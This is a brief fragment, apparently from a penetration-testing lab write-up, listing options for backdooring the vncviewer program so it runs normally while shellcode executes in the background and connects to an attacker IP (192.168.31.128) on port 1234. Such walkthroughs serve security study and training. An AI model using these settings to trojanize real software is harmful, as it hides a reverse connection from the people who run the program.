 - Stealth Mode: `Y` = `vncviewer` will function as normal and the shellcode will be executed in the background
- Payload: `L` - `1`
- LHOST: Attacker's IP - `192.168.31.128`
- LPORT: `1234`

![](.gitbook/assets/image-20230424165719721.png)
